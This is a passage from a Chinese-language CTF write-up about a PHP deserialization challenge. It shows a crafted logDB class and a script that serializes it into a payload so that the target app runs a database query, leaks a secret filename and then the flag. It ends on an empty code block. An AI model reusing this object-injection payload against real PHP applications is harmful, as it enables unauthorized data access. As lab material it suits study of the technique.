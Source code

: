 然而如何要输出的话，还是必须要使用log类的子类，logDB中正好找到了这个函数
```
class logDB extends log {

    private $__db;
    private $__ID;

    function __construct($db){
        $this->__db = $db;
    }

    function readLog($id=null){
        if($id!==null)
            $this->__ID = $id;

        if($this->__ID)
            return json_encode($this->__db->where("id", $this->__ID)->getOne('logs'));
    }

    function doLog($action, $data, $ip, $time){
        return $this->__db->insert('logs', array('action'=>$action, 'userData'=>$data, 'ip'=>$ip, 'time'=>$time));
    }

    function toString(){
        return serialize($this);
    }
}
```
readLog函数中调用了where并且返回了查询的值，所以构造的logDB如下
```
class logDB extends log {
    private $__db;

    private $__ID = 1;

    protected $_method = 'readLog';
    function __construct($db){
        $this->__db = $db;
    }

    function readLog($id=null){
        if($id!==null)
            $this->__ID = $id;

        if($this->__ID)
            return json_encode($this->__db->where("id", $this->__ID)->getOne('logs'));
    }

}
if (isset($_POST['db']))
{
	$a = new MysqliDb('localhost', 'user', 'password', 'ultraSecured');
	$b = new logDB($a);
	$payload = array('logged'=>true, 'title'=>'mr.','username'=>$b);
	file_put_contents('test.out', serialize($payload));
}
```
然后访问contact页面的得到
```
secret:fl4giSher3.class.php
```
然后直接读fl4giSher3.class.php得到flag
最后附上在本地跑MD5的脚本,本地搭建一个验证MD5的环境
```
```
